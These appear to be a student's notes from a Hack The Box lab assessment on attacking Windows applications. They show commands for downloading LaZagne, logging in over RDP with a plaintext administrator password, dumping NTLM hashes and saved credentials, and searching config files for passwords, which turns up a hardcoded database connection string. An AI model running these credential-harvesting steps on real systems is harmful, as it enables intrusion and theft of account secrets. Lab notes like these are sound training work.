 # Attacking Common Applications - Skills Assessment III

wget https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe

xfreerdp /u:Administrator /p:"xcyj8izxNVzhf4z" /v:10.129.95.200 /drive:linux,/home/htb-ac-786011


start lazagne.exe all

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:da044beedf173cf4ada93d034aa820fb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


[+] Password found !!!
URL: MEGACORP\administrator
Login: MEGACORP\administrator
Password: xcyj8izxNVzhf4z


findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

c:\Windows\System32>findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
DDFs\NGCProDDF_v1.2_final.xml
DriverStore\FileRepository\prncacl1.inf_amd64_af6e8c4f138f06d1\CNN08CL1_bidiwsd.xml
DriverStore\FileRepository\prncacl2.inf_amd64_43d302547f3b3145\CNN08CL2_bidiwsd.xml
DriverStore\FileRepository\prnms009.inf_amd64_bd3f6a64dee1535d\MPDW-PDC.xml
DriverStore\FileRepository\prnms009.inf_amd64_bd3f6a64dee1535d\MPDW_devmode_map.xml
icsxml\ipcfg.xml
icsxml\pppcfg.xml
inetsrv\config\schema\ASPNET_schema.xml
inetsrv\config\schema\Ftp_schema.xml
inetsrv\config\schema\FX_schema.xml
inetsrv\config\schema\IIS_schema.xml
schema.ini
spool\tools\Microsoft Print To PDF\MPDW-PDC.xml
spool\tools\Microsoft Print To PDF\MPDW_devmode_map.xml
spool\V4Dirs\971451D4-FF96-4454-BF4D-3A63DD904891\pdc.xml
WindowsPowerShell\v1.0\Modules\WebAdministration\NavigationTypes.namespace.xml

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\e22c2559\92c7e946\assembly\dl3\a25d6e1b\c75a9026_e6c6d501

tree C:\Users\MSSQLSERVER\AppData
Folder PATH listing
Volume serial number is 7B4A-4B5F
C:\USERS\MSSQLSERVER\APPDATA
├───Local
│   ├───Microsoft
│   │   ├───InputPersonalization
│   │   │   └───TrainedDataStore
│   │   ├───Windows
│   │   │   ├───GameExplorer
│   │   │   ├───Shell
│   │   │   └───WinX
│   │   │       ├───Group1
│   │   │       ├───Group2
│   │   │       └───Group3
│   │   └───Windows Sidebar
│   │       └───Gadgets
│   └───Temp
├───LocalLow
└───Roaming

dir c:\Users
 Volume in drive C has no label.
 Volume Serial Number is 7B4A-4B5F

 Directory of c:\Users

01/09/2020  05:14 PM    <DIR>          .
01/09/2020  05:14 PM    <DIR>          ..
01/07/2020  07:24 PM    <DIR>          .NET v4.5
01/07/2020  07:24 PM    <DIR>          .NET v4.5 Classic
03/27/2023  03:55 AM    <DIR>          Administrator
03/09/2020  02:20 AM    <DIR>          alcibiades
03/09/2020  02:06 AM    <DIR>          cyork
01/09/2020  05:14 PM    <DIR>          jorden
03/27/2023  03:56 AM    <DIR>          MSSQLSERVER
11/20/2016  05:24 PM    <DIR>          Public
01/09/2020  05:12 PM    <DIR>          sbauer
03/27/2023  03:56 AM    <DIR>          SQLTELEMETRY

--> Only cyrok has a lot of files on his profile

tree C:\Users\cyork\AppData

	string connString = "server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;";
	string connString = "server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;";
